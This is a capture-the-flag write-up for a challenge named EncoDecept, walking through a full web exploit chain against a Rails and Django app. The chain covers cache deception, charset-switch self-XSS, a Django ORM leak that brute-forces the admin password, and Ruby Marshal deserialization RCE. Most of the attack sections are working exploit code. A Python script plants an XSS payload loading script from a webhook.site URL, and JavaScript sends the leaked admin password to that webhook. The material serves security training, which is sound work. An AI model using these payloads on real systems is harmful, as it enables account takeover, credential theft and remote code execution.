  <font size="10">EncoDecept</font><br>
  20<sup>th</sup> Nov 2024 / Document No. D24.102.262

Prepared By: Xclow3n

Challenge Author: Xclow3n

Difficulty: <font color=orange>Medium</font>

Classification: Official

# [Synopsis](#synopsis)

The challenge involves exploiting self-XSS via cache deception, performing a Django ORM leak to obtain the admin's password, and then exploiting the Ruby 3.4-rc deserialization universal gadget chain.

# [Solution](#solution)

Visiting the home page displays the following:



After registering and logging in, we see the following home page:



We can create contracts, update our username, add a bio with markdown, and report a contract:





That's all the functionality we can access.

# Cache Deception

The challenge uses Nginx as a reverse caching proxy:

```nginx
user nginx;

worker_processes auto;

pcre_jit on;

error_log /var/log/nginx/error.log warn;

include /etc/nginx/modules/*.conf;
include /etc/nginx/conf.d/*.conf;

events {
    worker_connections 1024;
}

http {
    sendfile on;
    tcp_nopush on;
    tcp_nodelay on;
    keepalive_timeout 65;
    types_hash_max_size 2048;

    include /etc/nginx/mime.types;
    default_type application/octet-stream;

    access_log /var/log/nginx/access.log;
    error_log /var/log/nginx/error.log;

    gzip on;
    gzip_disable "msie6";

    proxy_cache_path /var/cache/nginx/my_cache levels=1:2 keys_zone=my_cache:10m max_size=1g inactive=60m use_temp_path=off;

    server {
        listen 1337;
        server_name _;

        location ~ \.(css|js|jpg|jpeg|png|gif|ico|woff|woff2|ttf|svg|eot|html|json)$ {
            proxy_cache my_cache;
            proxy_cache_key "$scheme$host$request_uri";
            proxy_cache_valid 200 5m;
            proxy_cache_valid 404 1m;

            proxy_pass http://127.0.0.1:3000;

            proxy_set_header Host $host:$server_port;
            proxy_set_header X-Forwarded-Proto $scheme;
            proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;

            proxy_http_version 1.1;
            add_header X-Cache-Status $upstream_cache_status;
        }

        location / {
            proxy_pass http://127.0.0.1:3000;

            proxy_set_header Host $host:$server_port;
            proxy_set_header X-Forwarded-Proto $scheme;
            proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;

            proxy_http_version 1.1;
            add_header X-Cache-Status $upstream_cache_status;
        }
    }
}
```

This configuration caches all resources that end with certain extensions.

It routes all traffic to the Rails application. This stack setup makes it vulnerable to **Web Cache Deception**.

According to [this research](https://portswigger.net/research/gotta-cache-em-all#cachepoisoning), Rails uses a custom delimiter, the `.` character:

```
Dot in Rails: Ruby on Rails allows the client to send a path with a formatter extension, which defines the view returned in the response. This is used to return different responses with different content types. If no extension is used or the extension isn't recognized by the server, the default HTML view is returned. Therefore, the dot character can act as a path delimiter.
```

With a payload like `/profile.ico`, we can poison the cache. However, to escalate further, we need an XSS or self-XSS.

# Self XSS

The application supports markdown on the settings page.



This is not directly vulnerable to XSS, but examining the server headers reveals:

```http
HTTP/1.1 200 OK
Server: nginx/1.26.2
Date: Fri, 15 Nov 2024 23:22:46 GMT
Content-Type: text/html
...SNIP...
```

The `Content-Type` header does not specify a charset, and the charset is not defined with a meta tag either. This makes it vulnerable to encoding differential attacks, as explained in [this research](https://www.sonarsource.com/blog/encoding-differentials-why-charset-matters/).

It turns out we can break out of the HTML context by switching to the JIS X 0208 1978 charset. Let's test that out.

Sending the following request to update the `bio` is recommended to use a proxy:

```bash
curl 'http://127.0.0.1:1337/settings' -X POST ...SNIP... --data-raw '_method=patch&authenticity_token=loph8GcIcxns14fBxvHfIT69DosomkrGvXrdX_jcbPzuYgEeGB-UergMjfFG9crk3HGhHUjZ6sgBD_GKvLlgAw&username=test&bio=+superman+&commit=Update+Settings'
```

We pass the following as the bio: `+superman+`. If this works, we should see a bunch of random characters.



It worked; however, it only works on Chrome. Moving on, let's try to execute XSS using the following payload: `+%1B(B+//)`



An alert box appears, confirming the XSS vulnerability. Next, we move on to the report functionality.

The report feature takes a URL and simply visits it.

```python
def startChromiumBot(url):
    chrome_options = Options()
    chrome_options.binary_location = "/usr/bin/chromium-browser"
    chrome_options.add_argument("--headless")
    chrome_options.add_argument("--no-sandbox")
    chrome_options.add_argument("--disable-dev-shm-usage")

    chrome_service = Service("/usr/bin/chromedriver")
    driver = webdriver.Chrome(service=chrome_service, options=chrome_options)

    try:
        driver.get('http://127.0.0.1:1337/login')

        WebDriverWait(driver, 15).until(
            EC.presence_of_element_located((By.ID, "loginBtn"))
        )

        username = "contract_manager"
        password = get_contract_manager_password()

        input1 = driver.find_element(By.XPATH, '/html/body/code/section/div/div/div/form/div[1]/input')
        input2 = driver.find_element(By.XPATH, '/html/body/code/section/div/div/div/form/div[2]/input')

        input1.send_keys(username)
        input2.send_keys(password)

        submit_button = driver.find_element(By.ID, "loginBtn")
        driver.execute_script("arguments[0].click();", submit_button)

        driver.get(url)
    finally:
        driver.quit()
```

Let's create an exploit script to automate this process as much as possible:

```python
import requests
from bs4 import BeautifulSoup
import random
import base64

def generate_random_4digit():
    return f"{random.randint(1000, 9999)}"

username = generate_random_4digit()
password = generate_random_4digit()

base_url = "http://127.0.0.1:1337"

session = requests.Session()

def getAuthenToken(html):
    soup = BeautifulSoup(html, "html.parser")
    return soup.find("input", {"name": "authenticity_token"})["value"]

def register():
    register_page = session.get(f"{base_url}/register")
    register_page.raise_for_status()

    authenticity_token = getAuthenToken(register_page.text)

    register_payload = {
        "username": username,
        "password": password,
        "authenticity_token": authenticity_token
    }

    response = session.post(f"{base_url}/register", data=register_payload)
    response.raise_for_status()


def login():
    login_page = session.get(f"{base_url}/login")
    login_page.raise_for_status()

    authenticity_token = getAuthenToken(login_page.text)

    login_payload = {
        "username": username,
        "password": password,
        "authenticity_token": authenticity_token
    }

    response = session.post(f"{base_url}/login", data=login_payload)
    response.raise_for_status()

def updateSettings():
    setting_page  = session.get(f"{base_url}/settings")
    setting_page.raise_for_status()

    authenticity_token = getAuthenToken(setting_page.text)

    setting_payload = {
        "_method": "patch",
        "username": username,
        "bio":"+\x1B(B+;s.src='https://webhook.site/aa05fd5b-f4da-42ee-9c08-75cc1d9a6de9';document.body.appendChild(s);//)",
        "commit":"Update+Settings",
        "authenticity_token": authenticity_token
    }

    response = session.post(f"{base_url}/settings", data=setting_payload)
    response.raise_for_status()

def cachePoison():
    session.get(f"{base_url}/settings.ico")
    session.get(f"{base_url}/settings.ico")

def reportURL():
    report_page  = session.get(f"{base_url}/report")
    report_page.raise_for_status()

    authenticity_token = getAuthenToken(report_page.text)

    report_payload = {
        "contract_url": "http://127.0.0.1:1337/settings.ico",
        "commit": "Report",
        "authenticity_token": authenticity_token
    }

    response = session.post(f"{base_url}/report", data=report_payload)
    response.raise_for_status()


register()
login()
updateSettings()
cachePoison()
reportURL()
```

This script registers a new user, logs in, updates the bio with an XSS payload, performs cache deception, and reports it. On our webhook, we receive a request:



# ORM Leak

Now that we have XSS on `contract_manager`, let's explore what we can do. We can't steal the cookie as it's HTTPOnly, but let's investigate the functionality accessible by `contract_manager`.

We can observe the following code in the Django API:

```python
class FilteredContractsView(APIView):
    permission_classes = [IsAuthenticated, IsContractManagerOrAdmin]

    def post(self, request, format=None):
        try:
            if request.data.get("all") == True:
                contracts = Contract.objects.all()
            else:
                filtered_data = {key: value for key, value in request.data.items() if key != "all"}
                contracts = Contract.objects.filter(**filtered_data)

            serializer = ContractSerializer(contracts, many=True)
        except Exception as e:
            return Response({"error": str(e)}, status=status.HTTP_400_BAD_REQUEST)

        return Response(serializer.data, status=status.HTTP_200_OK)
```

This specific line of code makes it [vulnerable to an ORM leak](https://www.elttam.com/blog/plormbing-your-django-orm/):

```python
filtered_data = {key: value for key, value in request.data.items() if key != "all"}
contracts = Contract.objects.filter(**filtered_data)
```

Let's log in as `contract_manager` on our local instance and observe how the frontend interacts with the backend.



It simply passes the parameters as URL parameters.

The contract model has a foreign key:

```python
class Contract(models.Model):
    ...SNIP...
    created_at = models.DateTimeField(auto_now_add=True)
    updated_at = models.DateTimeField(auto_now=True)
    owner = models.ForeignKey(
        settings.AUTH_USER_MODEL,
        on_delete=models.CASCADE,
        related_name='contracts',
        help_text="User who owns the contract"
    )

   ...SNIP...
```

This means we can leak the admin's password. To achieve this, we need to create a JavaScript script to brute-force the password:

```javascript
const characters = "abcdefghijklmnopqrstuvwxyz";

let gotFullPassword = false;
let currentPassword = "";
let webhook = "https://webhook.site/aa05fd5b-f4da-42ee-9c08-75cc1d9a6de9";
async function bruteForce() {
  while (!gotFullPassword) {
    for (let i = 0; i < characters.length; i++) {
      const testPassword = currentPassword + characters[i];

      const prefixResponse = await fetch(
        `/contracts/manage?owner__password__startswith=${testPassword}&owner__username=admin`,
      );
      const prefixData = await prefixResponse.text();

      if (
        !prefixData.includes("No contracts found based on the current filter.")
      ) {
        currentPassword += characters[i];

        const fullResponse = await fetch(
          `/contracts/manage?owner__password=${currentPassword}&owner__username=admin`,
        );
        const fullData = await fullResponse.text();

        if (
          !fullData.includes("No contracts found based on the current filter.")
        ) {
          gotFullPassword = true;
          console.log(`Password found: ${currentPassword}`);

          await fetch(`${webhook}?x=${encodeURIComponent(currentPassword)}`);

          return;
        }

        break;
      }
    }
  }
}

bruteForce();
```

Using all of the above together gives us the admin's password:



Logging in as admin grants us access to new functionality, `Manage Templates`:



Examining the Rails controller for this feature:

```ruby
def create
    user_data = current_user

    unless user_data && user_data['id']
      flash[:alert] = "User must be logged in to create a template."
      redirect_to login_path and return
    end
    serialized_content = Marshal.dump(params[:content])

    response = HTTP.auth("Token #{session[:token]}").post("http://localhost:8080/api/contract_templates/", json: { data: serialized_content, user_id: user_data['id'] }.merge(params.to_unsafe_h))

    if response.status.success?
      flash[:notice] = "Template created successfully."
      redirect_to contract_templates_path
    else
      flash.now[:alert] = "Failed to create template."
      render :new
    end
end
```

The `create` method performs the following actions:

1. **Checks if the user is logged in**: If not, it redirects to the login page with an error message.
2. **Serializes template content**: Converts `params[:content]` into a binary format using `Marshal.dump`.
3. **Sends data to the API**: Sends a POST request with the serialized content, user ID, and form data to the backend API.
4. **Handles API response**:
   - On success: Displays a success message and redirects to the templates page.
   - On failure: Displays an error message and re-renders the `new` template form.

This piece of code has a couple of issues:

```ruby
response = HTTP.auth("Token #{session[:token]}").post("http://localhost:8080/api/contract_templates/", json: { data: serialized_content, user_id: user_data['id'] }.merge(params.to_unsafe_h))
```

The merge operation makes it vulnerable. If we provide a `data` parameter, it will not overwrite it with the serialized content. Therefore, we can insert our malicious serialized content, which will be deserialized later, leading to RCE. There is a recent [Rails Universal RCE gadget chain](https://github.com/GitHubSecurityLab/ruby-unsafe-deserialization/blob/main/marshal/3.4-rc/marshal-rce-ruby-3.4-rc.rb) that we can utilize.

Let's add this to our exploit script.

```python
import requests
from bs4 import BeautifulSoup

username = "admin"
password = "cgfszyiotmtacdmnletkkaohwtkadmycottsysijegvxfplvovaqemmqgdapmazr"

base_url = "http://127.0.0.1:1337"

session = requests.Session()

def getAuthenToken(html):
    soup = BeautifulSoup(html, "html.parser")
    return soup.find("input", {"name": "authenticity_token"})["value"]

def login():
    login_page = session.get(f"{base_url}/login")
    login_page.raise_for_status()

    authenticity_token = getAuthenToken(login_page.text)

    login_payload = {
        "username": username,
        "password": password,
        "authenticity_token": authenticity_token
    }

    response = session.post(f"{base_url}/login", data=login_payload)
    response.raise_for_status()

def deserializationRCE(typd):
    with open(typd, "rb") as file:
        content_data = file.read()

    contracts_page = session.get(f"{base_url}/contract_templates/new")
    contracts_page.raise_for_status()

    authenticity_token = getAuthenToken(contracts_page.text)

    contracts_payload = {
        "authenticity_token": authenticity_token,
        "name": "hh",
        "description": "hh",
        "content": "hh",
        "commit": "Create Template",
        "data": content_data
    }

    response = session.post(f"{base_url}/contract_templates", data=contracts_payload)

login()
deserializationRCE('detection.txt')

deserializationRCE('rce.txt')
```

Running this script adds two templates. Viewing those templates results in RCE.
